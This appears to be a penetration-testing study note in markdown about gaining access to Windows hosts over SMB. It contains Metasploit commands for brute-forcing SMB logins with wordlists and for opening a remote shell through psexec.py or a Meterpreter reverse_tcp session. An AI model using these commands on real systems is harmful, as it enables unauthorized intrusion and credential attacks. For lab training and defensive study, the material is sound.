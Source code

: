 # Exploiting SMB with PsExec

## Contents
- [](#)

## Methodology

### What is PsExec?
- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote Windows systems using any user's credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

### SMB Exploitation with PsExec
- In order to utilize PsExec to gain access to a Windows target, we need to identifiy legitimate user accounts first, along with their respective passwords or password hashes. 
- This can be done by leveraging various tools and techniques.
- However, the most common technique will involve performing an SMB login brute-force attack.
- We can narrow down our brute-force attack to only include common Windows user accounts like...
  - `Administrator`  (which is constant across all Windows installations)
- After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell. 

## Techniques & Tools

- Start with your standard nmap scan (`-sV -sC`) to see what you have.
- Often it will be SMB2 is running on port 445
- **"_Message signing is enabled but not required_"**: KEY!! This means you can brute-force it.

### Brute Force with MSF
```
msfconsole
> search smb_login
> use [that module]
> info
  # to see what it does
> options
> set RHOSTS [target ip]
> set RPORT
  # if it's not set to 445 already
> set SMBDomain
  # if the target is part of a Domain
> set SMBPass [password]
  # if you know it, to verify it
> set SMBUser [username]
  # if you know it, to verify it
> set USER_File [path to text file of usernames]
  # example: /usr/share/metasploit-framework/data/wordlists/common_users.txt
> set PASS_File [path to text file of passwords]
  # example: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
> set verbose false
  # only display successful authentication attempts
> run
```
- That should give you creds... admin cred is what we want.

### Access with PsExec

#### 1. psexec.py

> This is a Windows executable but we are in Linux, so in Linux you need... psexec.py Python program.
```
psexec.py Administrator@[target ip] [command to execute; e.g., cmd.exe]
# or for access without executing a command
psexec.py Administrator@[target ip]
```
- You'll be prompted for the password
- This should give you a cmd command prompt on the target system: `whoami`

#### 2. Metasploit 
> You can do the same thing in MetaSploit
```
> search psexec
  # We're looking for the module that will authenticate on the target via SMB
  # Then it will upload necessary files to establish a meterpreter session
  # Antivirus programs on the target might catch this b/c you are uploading files and executing them.
> use /exploit/windows/smb/psexec
> show payloads
  # check the default payload (should be okay if its windows/meterpreter/reverse_tcp)
> set RHOSTS, LHOST, LPORT, SMBUser, SMBPass
> run
```
- Should give you a meterpreter session
- 
